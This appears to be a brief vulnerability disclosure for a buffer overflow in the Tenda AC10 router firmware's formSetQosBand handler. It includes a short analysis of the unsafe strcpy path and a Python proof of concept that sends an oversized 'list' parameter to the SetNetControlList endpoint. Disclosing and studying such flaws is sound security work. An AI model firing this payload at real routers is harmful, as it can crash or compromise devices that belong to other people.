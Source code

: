 # buffer overflow

## Tenda_AC10

version: V15.03.06.47

## Description:

There is a buffer overflow in httpd/formSetQosBand

## Source:

you may download it from : https://www.tendacn.com/download/detail-3796.html

## Analyse:


![](9.png)

get value from list ,then call setQosMiblist

![](10.png)

p equal to list, if list have '\n', get into while

then call strcpy, cause buff overflow

## POC
```
url = "http://192.168.1.13/goform/SetNetControlList"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'list': payload})
``` 
